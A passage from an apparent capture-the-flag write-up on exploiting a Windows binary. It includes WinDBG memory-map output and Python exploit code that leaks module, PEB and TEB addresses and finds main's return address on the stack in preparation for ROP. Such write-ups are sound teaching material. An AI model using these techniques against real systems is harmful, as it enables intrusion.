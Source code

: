 At this point, I considered overwriting a function pointer somewhere (e.g. in the binary or in NTDLL) to gain code execution, but I noticed that Control Flow Guard (CFG) seemed to be on. Since I was not familiar with CFG beyond knowing that it might be difficult to bypass, I chose instead to go with return oriented programming (ROP), for which I'd need the address of the stack. With an NTDLL pointer in hand, I was able to leak out pointers to KERNEL32 and KERNELBASE, which have lots of useful functions, as well as pointer to the Process Environment Block (PEB). The PEB occupies one page in memory, and subsequent pages hold the Thread Environment Blocks (TEB) for each thread, as `!address` in WinDBG shows:

```
    e1`f8105000       e1`f8106000        0`00001000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     PEB        [13bc]
    e1`f8106000       e1`f8108000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~0; 13bc.8b0]
    e1`f8108000       e1`f810a000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~1; 13bc.177c]
    e1`f810a000       e1`f810c000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~2; 13bc.f64]
    e1`f810c000       e1`f810e000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~3; 13bc.2120]
    e1`f810e000       e1`f8110000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~4; 13bc.18a0]
    e1`f8110000       e1`f8112000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~5; 13bc.1128]
```

The TEBs hold pointers to the top and bottom of the stack. Then, I can read the stack to determine exactly where `main`'s return address is:

```python
# heap_leak = do_leak_range(heapaddr, 0x400) # used for leaking ntdll
ntdll_leak = do_leak_range(ntdll + 0x16a400, 0x100)
ntdll_leak2 = do_leak_range(ntdll + 0x16b178, 0x100)

kernel32 = u64(ntdll_leak2[:8]) - 0x428f0
log.info("kernel32: 0x%x", kernel32)
kernelbase = u64(ntdll_leak2[16:24]) - 0x74a50
log.info("kernelbase: 0x%x", kernelbase)

exe_base = u64(ntdll_leak[8:16]) - 0xf8
log.info("exe base: 0x%x", exe_base)
peb_addr = u64(ntdll_leak[0x48:0x50]) - 0x80
log.info("peb: 0x%x", peb_addr)
# TEBs follow PEB in memory
teb0_addr = peb_addr + 0x1000

teb = do_leak_range(teb0_addr, 0x100)
stack_top, stack_bottom = u64(teb[8:16]), u64(teb[16:24])
log.info("stack range: [0x%x, 0x%x]", stack_bottom, stack_top)

# search for main() return address
stack_leak = do_leak_range(stack_top - 0x800, 0x600)
for i in range(0, len(stack_leak), 8):
    if u64(stack_leak[i:i+8]) == exe_base + 0x5e58:
        rip_addr = stack_top - 0x800 + i
        break
log.info("rip is at 0x%x", rip_addr)
```
